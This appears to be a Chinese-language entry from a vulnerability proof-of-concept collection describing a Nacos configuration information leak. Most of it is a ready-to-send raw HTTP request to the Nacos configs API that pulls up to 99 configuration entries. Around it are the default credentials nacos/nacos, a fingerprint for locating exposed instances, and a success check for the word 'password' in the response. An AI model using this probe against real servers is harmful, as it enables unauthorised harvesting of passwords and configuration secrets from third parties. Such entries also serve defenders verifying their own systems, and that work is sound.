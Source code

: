 ﻿# Nacos 配置信息泄露漏洞

> 更新时间：2024-04-19

> 漏洞编号：

> 漏洞说明：默认密码nacos nacos

> 漏洞特征：app="nacos"

> 验证脚本：HTTP

```
GET /nacos/v1/cs/configs?search=accurate&dataId=&group=&pageNo=1&pageSize=99 HTTP/1.1
Accept:text/html,application/xhtml+xml,application/xml:q=0.9,image/avif,image/webp.*/*:q=0.8
Accept-Language:zh-CN,zh;q=0.8,zh-TW:q=0.7,zh-HK;q=0.5.en-US:q=0.3.en:q=0.2
Accept-Encoding: gzip, deflate
Comnection: close
Upgrade-Insecure-Requests: 1
```

> 响应代码特征：200

> 响应内容特征：password

> 上传文件定位：

> 验证文件来源：Nacos 配置信息泄露漏洞.poc

